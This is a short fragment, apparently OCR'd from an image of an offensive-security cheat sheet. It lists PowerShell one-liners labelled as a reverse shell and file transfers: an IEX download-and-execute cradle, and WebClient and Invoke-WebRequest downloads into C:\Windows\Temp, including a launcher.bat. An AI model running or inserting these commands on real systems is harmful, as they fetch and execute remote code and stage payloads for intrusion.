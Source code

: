 Reverse shell - IEX (New-Object Net.WebClient).DownloadString('URL');

File Transfer - (New-Object System.Net.WebClient).DownloadFile("URL", "C:\Windows\Temp\archive.zip")
File Transfer - Invoke-WebRequest "URL" -OutFile "C:\Windows\Temp\launcher.bat"
